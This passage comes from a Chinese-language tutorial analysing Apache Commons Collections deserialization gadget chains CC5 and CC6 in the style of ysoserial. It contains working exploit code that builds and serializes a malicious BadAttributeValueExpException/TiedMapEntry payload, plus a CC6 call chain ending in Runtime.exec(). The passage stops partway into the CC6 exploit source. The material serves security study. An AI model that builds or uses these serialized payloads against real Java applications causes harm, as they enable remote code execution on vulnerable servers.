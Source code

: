 ```
        InvokerTransformer trans = new InvokerTransformer("newTransformer",new Class[0],new Object[0]);

        HashMap map = new HashMap();
        Map innerMap = LazyMap.decorate(map,trans);
        //构造外部的触发链,将构造的TemplateImpl实例放入
        TiedMapEntry entry = new TiedMapEntry(innerMap, tmp);
        BadAttributeValueExpException val  = new BadAttributeValueExpException(null);
        Field valField = val.getClass().getDeclaredField("val");
        valField.setAccessible(true);
        valField.set(val,entry);
        //序列化
        File file;
        file =new File(System.getProperty("user.dir")+"/javasec-ysoserial/src/main/resources/commonscollections5-2.ser");
        ObjectOutputStream obj = new ObjectOutputStream(new FileOutputStream(file));
        obj.writeObject(val);
    `}`
`}`
```



## CommonsCollections6

反序列化调用链如下所示：

```
java.util.HashSet.readObject()
                java.util.HashMap.put()
                  java.util.HashMap.hash()
                    TiedMapEntry.hashCode()
                   　　 TiedMapEntry.getValue()
                      　　  LazyMap.get()
                                ChainedTransformer.transform()
                           　　　　InvokerTransformer.transform()
                                       Runtime.exec()
```

cc6外部也是采用了新的hashset来触发其readObject()，而hashset对象的插入是根据它的hashcode，并且hashset内用HashMap对它的内部对象进行排序，那么反序列化后恢复元素的过程中，将再次计算key的hashcode，而TiedMapEntry有趣的一点是它的hashCode函数中将调用该类的getvalue函数，而我们在分析完cc5之后知道getvalue函数中将调用this.map.get(this.key)，所以此时后半部调用链和cc5又是一模一样了，接着就是lazymap.get干的事，cc6中用的是也是一层contantTransform+3层invokeTranform。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01ebff15664f89bdb2.png)

`Commonscollections6衍生1:`因为这里key值也是可控的，因此cc6同时也可以进行换装了，即根据cc3的特点结合一层ConstantTransformer+一层invokertransformer，利用链的上半部分不变，只变下半部分的chained即可生成第一条衍生版的cc6<br>`Commonscollections6衍生2:`第二种显然与cc5的衍生也是一样的，因为最终进入第一层transformer的key可控，因此根据cc2的特点结合一层invokeTransformer反射即可形成cc6的第二条衍生链<br>**CommonsCollections6.java(原版exp):**

```
package CommonsCollections6;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.lang.reflect.Method;
import java.lang.Class;
import java.lang.Runtime;
import java.io.*;
import java.lang.reflect.Field;
```